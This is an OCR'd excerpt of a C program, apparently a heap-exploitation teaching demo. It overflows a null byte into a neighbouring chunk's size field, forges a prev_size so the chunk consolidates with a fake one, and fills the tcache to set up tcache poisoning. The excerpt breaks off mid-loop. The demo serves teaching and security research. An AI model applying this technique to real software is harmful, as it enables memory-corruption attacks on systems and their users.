 ```bash

    printf("Our fake chunk at %p looks like:\n", a);
    printf("prev_size (not used): %#lx\n", a[0]);
    printf("size: %#lx\n", a[1]);
    printf("fwd: %#lx\n", a[2]);
    printf("bck: %#lx\n", a[3]);

    printf("\nWe allocate 0x28 bytes for 'b'.\n"
           "This chunk will be used to overflow 'b' with a single null byte into the metadata of 'c'\n"
           "After this chunk is overlapped, it can be freed and used to launch a tcache poisoning attack.\n");
    uint8_t *b = (uint8_t *) malloc(0x28);
    printf("b: %p\n", b);

    int real_b_size = malloc_usable_size(b);
    printf("Since we want to overflow 'b', we need the 'real' size of 'b' after rounding: %#x\n", real_b_size);

    /* In this case it is easier if the chunk size attribute has a least significant byte with
     * a value of 0x00. The least significant byte of this will be 0x00, because the size of 
     * the chunk includes the amount requested plus some amount required for the metadata. */
    printf("\nWe allocate 0xf8 bytes for 'c'.\n");
    uint8_t *c = (uint8_t *) malloc(0xf8);

    printf("c: %p\n", c);

    uint64_t* c_size_ptr = (uint64_t*)(c - 8);
    // This technique works by overwriting the size metadata of an allocated chunk as well as the prev_inuse bit

    printf("\nc.size: %#lx\n", *c_size_ptr);
    printf("c.size is: (0x100) | prev_inuse = 0x101\n");

    printf("We overflow 'b' with a single null byte into the metadata of 'c'\n");
    b[real_b_size] = 0;
    printf("c.size: %#lx\n", *c_size_ptr);

    printf("It is easier if b.size is a multiple of 0x100 so you "
           "don't change the size of b, only its prev_inuse bit\n");

    // Write a fake prev_size to the end of b
    printf("\nWe write a fake prev_size to the last %lu bytes of 'b' so that "
           "it will consolidate with our fake chunk\n", sizeof(size_t));
    size_t fake_size = (size_t)((c - sizeof(size_t) * 2) - (uint8_t*) a);
    printf("Our fake prev_size will be %p - %p = %#lx\n", c - sizeof(size_t) * 2, a, fake_size);
    *(size_t*) &b[real_b_size-sizeof(size_t)] = fake_size;

    // Change the fake chunk's size to reflect c's new prev_size
    printf("\nMake sure that our fake chunk's size is equal to c's new prev_size.\n");
    a[1] = fake_size;

    printf("Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", a[1]);

    // Now we fill the tcache before we free chunk 'c' to consolidate with our fake chunk
    printf("\nFill tcache.\n");
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++) {
        x[i] = malloc(0xf8);
    }

    printf("Fill up tcache list.\n");
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++) {
```